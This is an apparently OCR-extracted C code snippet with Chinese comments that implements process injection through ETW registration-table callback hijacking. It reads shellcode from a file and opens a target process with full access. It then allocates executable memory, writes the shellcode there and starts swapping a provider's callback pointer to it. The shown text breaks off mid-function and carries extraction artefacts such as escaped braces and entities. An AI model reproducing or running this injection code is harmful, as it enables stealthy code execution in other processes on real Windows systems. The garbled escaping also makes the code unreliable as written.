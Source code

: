```
    plen = readpic(path, &amp;pdata);
    if(plen == 0) `{` 
      wprintf(L"ERROR: Unable to read shellcode from %sn", path);
      return FALSE;
    `}`
    // 尝试获取ETW注册表的VA
    etw = etw_get_table_va();
    if(etw == NULL) `{`
      wprintf(L"ERROR: Unable to obtain address of ETW Registration Table.n");
      return FALSE;
    `}`
    printf("*********************************************n");
    printf("EtwpRegistrationTable for %i found at %pn", pid, etw);
    //尝试打开目标进程
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if(hp == NULL) `{`
      xstrerror(L"OpenProcess(%ld)", pid);
      return FALSE;
    `}`
    // 除非指定，否则使用（Microsoft Windows用户诊断）
    node = etw_get_reg(
      hp,
      etw,
      prov != NULL ? prov : L"`{`305FC87B-002A-5E26-D297-60223012CA9C`}`",&amp;re);

    if(node != NULL) `{`
      // 将GUID转换为字符串和显示名称
      StringFromGUID2(&amp;re.ProviderId, id, sizeof(id));
      name = etw_id2name(id);

      wprintf(L"Address of remote node  : %pn", (PVOID)node);
      wprintf(L"Using %s (%s)n", id, name);

      // 为shellcode 分配内存
      cs = VirtualAllocEx(
        hp, NULL, plen, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_EXECUTE_READWRITE);

      if(cs != NULL) `{`
        wprintf(L"Address of old callback : %pn", re.Callback);
        wprintf(L"Address of new callback : %pn", cs);

        // 写shellcode
        WriteProcessMemory(hp, cs, pdata, plen, &amp;wr);

        // 初始化追踪
        bufferSize = sizeof(EVENT_TRACE_PROPERTIES) +
                     sizeof(etwname) + 2;

        prop = (EVENT_TRACE_PROPERTIES*)LocalAlloc(LPTR, bufferSize);
        prop-&gt;Wnode.BufferSize    = bufferSize;
        prop-&gt;Wnode.ClientContext = 2;
        prop-&gt;Wnode.Flags         = WNODE_FLAG_TRACED_GUID;
        prop-&gt;LogFileMode         = EVENT_TRACE_REAL_TIME_MODE;
        prop-&gt;LogFileNameOffset   = 0;
        prop-&gt;LoggerNameOffset    = sizeof(EVENT_TRACE_PROPERTIES);

        if(StartTrace(&amp;ht, etwname, prop) == ERROR_SUCCESS) `{`
          //保存回调
          callback = re.Callback;
          re.Callback = cs;

```